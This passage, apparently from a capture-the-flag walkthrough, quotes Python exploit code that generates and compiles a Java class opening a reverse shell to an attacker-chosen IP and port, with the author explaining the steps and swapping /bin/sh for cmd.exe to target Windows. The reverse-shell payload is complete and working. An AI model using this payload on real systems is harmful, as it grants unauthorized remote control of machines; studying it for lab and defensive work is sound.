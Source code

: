     public class Exploit {
    
        public Exploit() throws Exception {
            String host="%s";
            int port=%d;
            String cmd="/bin/sh";
            Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
            Socket s=new Socket(host,port);
            InputStream pi=p.getInputStream(),
                pe=p.getErrorStream(),
                si=s.getInputStream();
            OutputStream po=p.getOutputStream(),so=s.getOutputStream();
            while(!s.isClosed()) {
                while(pi.available()>0)
                    so.write(pi.read());
                while(pe.available()>0)
                    so.write(pe.read());
                while(si.available()>0)
                    po.write(si.read());
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
                    p.exitValue();
                    break;
                }
                catch (Exception e){
                }
            };
            p.destroy();
            s.close();
        }
    }
    """ % (userip, lport)
    
        # writing the exploit to Exploit.java file
    
        p = Path("Exploit.java")
    
        try:
            p.write_text(program)
            subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
        except OSError as e:
            print(Fore.RED + f'[-] Something went wrong {e}')
            raise e
        else:
            print(Fore.GREEN + '[+] Exploit java class created success')
    

It puts in the IP and port, writes it to disk, and then compiles it with
`javac`.

Looking at the payload, it’s using `String cmd="/bin/sh";`, which won’t work
on a Windows host. I’ll edit that to `String cmd="cmd.exe";`.
